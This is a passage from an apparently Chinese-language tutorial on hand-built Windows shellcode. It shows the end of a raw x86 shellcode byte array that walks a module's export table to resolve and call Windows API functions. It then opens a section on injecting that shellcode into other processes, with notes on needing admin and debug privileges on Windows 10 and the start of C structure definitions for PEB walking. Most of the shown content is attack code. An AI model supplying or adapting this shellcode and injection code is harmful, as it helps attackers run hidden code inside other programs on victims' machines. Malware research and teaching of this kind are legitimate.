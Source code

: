 	0x48, 0x3C, 0x89, 0x8D, 0x64, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x68, 0xFF, 0xFF, 0xFF, 0x8B, 0x48,
	0x3C, 0x8B, 0x95, 0x68, 0xFF, 0xFF, 0xFF, 0x8D, 0x44, 0x0A, 0x04, 0x89, 0x85, 0x60, 0xFF, 0xFF,
	0xFF, 0x8B, 0x85, 0x60, 0xFF, 0xFF, 0xFF, 0x83, 0xC0, 0x14, 0x89, 0x85, 0x5C, 0xFF, 0xFF, 0xFF,
	0x8B, 0x85, 0x60, 0xFF, 0xFF, 0xFF, 0x0F, 0xB7, 0x48, 0x10, 0x03, 0x8D, 0x5C, 0xFF, 0xFF, 0xFF,
	0x89, 0x8D, 0x58, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x5C, 0xFF, 0xFF, 0xFF, 0x8B, 0x4D, 0xFC, 0x03,
	0x48, 0x60, 0x89, 0x8D, 0x54, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x54, 0xFF, 0xFF, 0xFF, 0x8B, 0x4D,
	0xFC, 0x03, 0x48, 0x1C, 0x89, 0x8D, 0x50, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x54, 0xFF, 0xFF, 0xFF,
	0x8B, 0x4D, 0xFC, 0x03, 0x48, 0x20, 0x89, 0x8D, 0x4C, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x54, 0xFF,
	0xFF, 0xFF, 0x8B, 0x4D, 0xFC, 0x03, 0x48, 0x24, 0x89, 0x8D, 0x48, 0xFF, 0xFF, 0xFF, 0xC7, 0x85,
	0x44, 0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x00, 0x00, 0xEB, 0x0F, 0x8B, 0x85, 0x44, 0xFF, 0xFF, 0xFF,
	0x83, 0xC0, 0x01, 0x89, 0x85, 0x44, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x54, 0xFF, 0xFF, 0xFF, 0x8B,
	0x8D, 0x44, 0xFF, 0xFF, 0xFF, 0x3B, 0x48, 0x18, 0x0F, 0x8D, 0xBC, 0x00, 0x00, 0x00, 0x8D, 0x45,
	0xA4, 0x89, 0x85, 0x40, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x44, 0xFF, 0xFF, 0xFF, 0x8B, 0x8D, 0x4C,
	0xFF, 0xFF, 0xFF, 0x8B, 0x55, 0xFC, 0x03, 0x14, 0x81, 0x89, 0x95, 0x3C, 0xFF, 0xFF, 0xFF, 0xC7,
	0x45, 0xDC, 0x00, 0x00, 0x00, 0x00, 0xB8, 0x01, 0x00, 0x00, 0x00, 0x85, 0xC0, 0x74, 0x5B, 0x8B,
	0x85, 0x40, 0xFF, 0xFF, 0xFF, 0x0F, 0xBE, 0x08, 0x85, 0xC9, 0x75, 0x16, 0x8B, 0x85, 0x3C, 0xFF,
	0xFF, 0xFF, 0x0F, 0xBE, 0x08, 0x85, 0xC9, 0x75, 0x09, 0xC7, 0x45, 0xDC, 0x01, 0x00, 0x00, 0x00,
	0xEB, 0x38, 0x8B, 0x85, 0x40, 0xFF, 0xFF, 0xFF, 0x0F, 0xBE, 0x08, 0x8B, 0x95, 0x3C, 0xFF, 0xFF,
	0xFF, 0x0F, 0xBE, 0x02, 0x3B, 0xC8, 0x74, 0x02, 0xEB, 0x20, 0x8B, 0x85, 0x40, 0xFF, 0xFF, 0xFF,
	0x83, 0xC0, 0x01, 0x89, 0x85, 0x40, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x3C, 0xFF, 0xFF, 0xFF, 0x83,
	0xC0, 0x01, 0x89, 0x85, 0x3C, 0xFF, 0xFF, 0xFF, 0xEB, 0x9C, 0x83, 0x7D, 0xDC, 0x00, 0x74, 0x25,
	0x8B, 0x85, 0x44, 0xFF, 0xFF, 0xFF, 0x8B, 0x8D, 0x48, 0xFF, 0xFF, 0xFF, 0x0F, 0xB7, 0x14, 0x41,
	0x8B, 0x85, 0x50, 0xFF, 0xFF, 0xFF, 0x8B, 0x0C, 0x90, 0x8B, 0x95, 0x5C, 0xFF, 0xFF, 0xFF, 0x03,
	0x4A, 0x1C, 0x89, 0x4D, 0xF4, 0xE9, 0x20, 0xFF, 0xFF, 0xFF, 0xEB, 0x07, 0xB8, 0x01, 0x00, 0x00,
	0x00, 0xEB, 0x38, 0x8D, 0x45, 0x94, 0x50, 0x8B, 0x4D, 0xFC, 0x51, 0xFF, 0x55, 0xF4, 0x89, 0x45,
	0xF0, 0x8D, 0x45, 0xB4, 0x50, 0xFF, 0x55, 0xF0, 0x89, 0x45, 0xF8, 0x8D, 0x45, 0x88, 0x50, 0x8B,
	0x4D, 0xF8, 0x51, 0xFF, 0x55, 0xF4, 0x89, 0x45, 0xEC, 0x6A, 0x00, 0x6A, 0x00, 0x8D, 0x85, 0x78,
	0xFF, 0xFF, 0xFF, 0x50, 0x6A, 0x00, 0xFF, 0x55, 0xEC, 0x33, 0xC0, 0x5F, 0x5E, 0x5B, 0x8B, 0xE5,
	0x5D, 0xC2, 0x04, 0x00};
五、注入Shellcode到其他进程
下面直接给出程序代码，因为比较简单，都是API，就不多做解释了。
注意，如果你在win10上测试，需要提升调试权限，管理员运行，且目标进程是32位的。

#include "stdafx.h"
#include <Windows.h>

#define TOUPPER(x) ((((x)>='a')&&((x)<='z'))?((x)-32):(x))
#define TOLOWER(x) ((((x)>='A')&&((x)<='Z'))?((x)+32):(x))

typedef struct _UNICODE_STRING {
	USHORT Length;
	USHORT MaximumLength;
	PWSTR  Buffer;
} UNICODE_STRING, *PUNICODE_STRING;

typedef struct _PEB_LDR_DATA
{
	DWORD Length;
	bool Initialized;
	PVOID SsHandle;	
	LIST_ENTRY InLoadOrderModuleList;
	LIST_ENTRY InMemoryOrderModuleList;
	LIST_ENTRY InInitializationOrderModuleList;
} PEB_LDR_DATA,*PPEB_LDR_DATA;
